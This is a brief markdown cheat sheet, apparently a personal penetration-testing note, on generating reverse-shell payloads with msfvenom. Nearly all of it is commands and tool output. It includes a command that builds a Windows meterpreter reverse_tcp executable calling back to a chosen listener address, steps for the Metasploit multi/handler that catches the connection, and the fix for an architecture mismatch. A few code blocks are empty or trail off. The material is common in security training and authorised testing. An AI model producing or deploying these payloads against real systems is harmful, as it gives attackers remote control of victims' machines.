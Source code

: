 [MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### Syntax
```
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>
```

### Common
```
myip=127.0.0.1

msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -f exe -o rev.exe
```

### Capture 
```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

```
msfvenom -l payloads
```

```
msfvenom -l payloads |
```

## Common Mistake
### 
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

### 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rev64.exe
```

### 
```
$ file rev64.exe 
rev64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### 
```

```
